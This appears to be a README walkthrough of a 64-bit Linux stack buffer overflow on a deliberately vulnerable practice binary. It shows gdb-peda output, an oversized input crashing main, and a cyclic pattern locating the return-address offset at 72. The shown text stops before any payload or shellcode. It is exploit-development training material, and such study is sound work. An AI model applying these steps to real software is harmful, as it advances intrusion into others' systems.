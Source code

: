 # buffer-overflow-linux-64-bit
buffer overflow linux 64 bit

gdb-peda$ file app
Reading symbols from app...
(No debugging symbols found in app)
gdb-peda$ 
gdb-peda$ run
Starting program: /home/kali/Desktop/Buffer_linux/app 
Oops, I'm leaking! 0x7fffffffe0c0
Pwn me ¯\_(ツ)_/¯ 
> 
[Inferior 1 (process 24099) exited normally]
Warning: not running
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x000000000040082f <+0>:     push   rbp
   0x0000000000400830 <+1>:     mov    rbp,rsp
   0x0000000000400833 <+4>:     sub    rsp,0x40
   0x0000000000400837 <+8>:     mov    eax,0x0
   0x000000000040083c <+13>:    call   0x4007b5 <__init>
   0x0000000000400841 <+18>:    lea    rax,[rbp-0x40]
   0x0000000000400845 <+22>:    mov    rsi,rax
   0x0000000000400848 <+25>:    mov    edi,0x400919
   0x000000000040084d <+30>:    mov    eax,0x0
   0x0000000000400852 <+35>:    call   0x400620 <printf@plt>
   0x0000000000400857 <+40>:    mov    edi,0x400930
   0x000000000040085c <+45>:    call   0x400610 <puts@plt>
   0x0000000000400861 <+50>:    mov    edi,0x400946
   0x0000000000400866 <+55>:    mov    eax,0x0
   0x000000000040086b <+60>:    call   0x400620 <printf@plt>
   0x0000000000400870 <+65>:    mov    rdx,QWORD PTR [rip+0x200819]        # 0x601090 <stdin@@GLIBC_2.2.5>
   0x0000000000400877 <+72>:    lea    rax,[rbp-0x40]
   0x000000000040087b <+76>:    mov    esi,0x200
   0x0000000000400880 <+81>:    mov    rdi,rax
   0x0000000000400883 <+84>:    call   0x400650 <fgets@plt>
   0x0000000000400888 <+89>:    mov    eax,0x0
   0x000000000040088d <+94>:    leave  
   0x000000000040088e <+95>:    ret    
End of assembler dump.

gdb-peda$ 
______________________________________
┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python -c 'print "A"*300' > f
______________________________________
gdb-peda$ run < f
Starting program: /home/kali/Desktop/Buffer_linux/app < f
Oops, I'm leaking! 0x7fffffffe0c0
Pwn me ¯\_(ツ)_/¯ 
> 
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7edef4e (<__GI___libc_read+14>:     cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7faea03 --> 0xfb1680000000000a 
RDI: 0x7ffff7fb1680 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe108 ('A' <repeats 200 times>...)
RIP: 0x40088e (<main+95>:       ret)
R8 : 0x7fffffffe0c0 ('A' <repeats 200 times>...)
R9 : 0x0 
R10: 0xfffffffffffff24a 
R11: 0x246 
R12: 0x4006a0 (<_start>:        xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400883 <main+84>:  call   0x400650 <fgets@plt>
   0x400888 <main+89>:  mov    eax,0x0
   0x40088d <main+94>:  leave  
=> 0x40088e <main+95>:  ret    
   0x40088f:    nop
   0x400890 <__libc_csu_init>:  push   r15
   0x400892 <__libc_csu_init+2>:        push   r14
   0x400894 <__libc_csu_init+4>:        mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe108 ('A' <repeats 200 times>...)
0008| 0x7fffffffe110 ('A' <repeats 200 times>...)
0016| 0x7fffffffe118 ('A' <repeats 200 times>...)
0024| 0x7fffffffe120 ('A' <repeats 200 times>...)
0032| 0x7fffffffe128 ('A' <repeats 196 times>, "\n")
0040| 0x7fffffffe130 ('A' <repeats 188 times>, "\n")
0048| 0x7fffffffe138 ('A' <repeats 180 times>, "\n")
0056| 0x7fffffffe140 ('A' <repeats 172 times>, "\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040088e in main ()
gdb-peda$ info registers
rax            0x0                 0x0
rbx            0x0                 0x0
rcx            0x7ffff7edef4e      0x7ffff7edef4e
rdx            0x0                 0x0
rsi            0x7ffff7faea03      0x7ffff7faea03
rdi            0x7ffff7fb1680      0x7ffff7fb1680
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffe108      0x7fffffffe108
r8             0x7fffffffe0c0      0x7fffffffe0c0
r9             0x0                 0x0
r10            0xfffffffffffff24a  0xfffffffffffff24a
r11            0x246               0x246
r12            0x4006a0            0x4006a0
r13            0x0                 0x0
r14            0x0                 0x0
r15            0x0                 0x0
rip            0x40088e            0x40088e <main+95>
eflags         0x10202             [ IF RF ]
cs             0x33                0x33
ss             0x2b                0x2b
ds             0x0                 0x0
es             0x0                 0x0
fs             0x0                 0x0
gs             0x0                 0x0

gdb-peda$run < pattern 
Starting program: /home/kali/Desktop/Buffer_linux/app < pattern
Oops, I'm leaking! 0x7fffffffe0c0
Pwn me ¯\_(ツ)_/¯ 
> 
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xfbad20ab 
RDX: 0x0 
RSI: 0x7ffff7faea03 --> 0xfb16800000000025 
RDI: 0x7ffff7fb1680 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7fffffffe108 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A"...)
RIP: 0x40088e (<main+95>:       ret)
R8 : 0x7fffffffe0c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
gdb-peda$ pattern_search 
Registers contain pattern buffer:
RBP+0 found at offset: 64
Registers point to pattern buffer:
[RSP] --> offset 72 - size ~203
[R8] --> offset 0 - size ~203
Pattern buffer found at:
0x00007fffffffe0c0 : offset    0 - size  300 ($sp + -0x48 [-18 dwords])

